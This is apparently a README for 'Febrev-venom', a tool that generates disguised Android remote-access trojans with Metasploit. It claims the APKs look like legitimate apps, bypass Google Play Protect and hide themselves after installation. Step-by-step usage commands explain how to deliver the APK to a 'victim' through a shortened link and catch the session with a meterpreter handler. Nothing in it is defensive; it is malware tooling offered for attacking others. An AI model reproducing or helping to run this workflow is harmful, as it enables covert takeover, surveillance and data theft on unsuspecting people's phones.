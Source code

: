 # NEW VERSION 3.0
# Febrev-venom updated to version 3.0
# Added a new functionality found by me i.e, it will disappear itself after installation 

FEBREV venom(also called febrev-droidspy) is a tool to create android RATs through metasploit,changes the icon,package name, Obfuscates the Apk , Makes it look like a legit app , signs the RAT apk ,  and send it to the victim via a link url over the INTERNET
IT CAN BYPASS GOOGLE PLAY PROTECT.............
ALSO THE APP CREATED BY MY TOOL CAN AUTOMATICALLY DISAPPEAR AFTER INSTALLING


**must run as root
**must run in debian-based linux distro like kali

## USAGE:
   
   come into the febrev-venom directory 
  
   chmod +x * 
   
   python3 installer.py
   
   now you can run febrev venom anywhere from the terminal by typing the command >>  febrev
   
   
   (OR)
    come into the febrev-venom directory  
    then    
    
   python3 febrev-venom.py
   
   
 # use the generated link(the best) + /<your apk> and send it to your victim 
 then start your msfconsole 
 use exploit/multi/handler
 then set lhost and lport and start the meterpreter session
   
 # OR simply use the resource script generated automatically by the tool
   -> msfconsole -r <appname_listener.rc>
 # You can shorten the URL by :
    1.open another terminal without closing the current one
    2.copy the URL from the current terminal and type -> php shorturl.php <the copied url>
 
 
 # happy hacking.....!!!!!
 
 ################################################################################################################
   
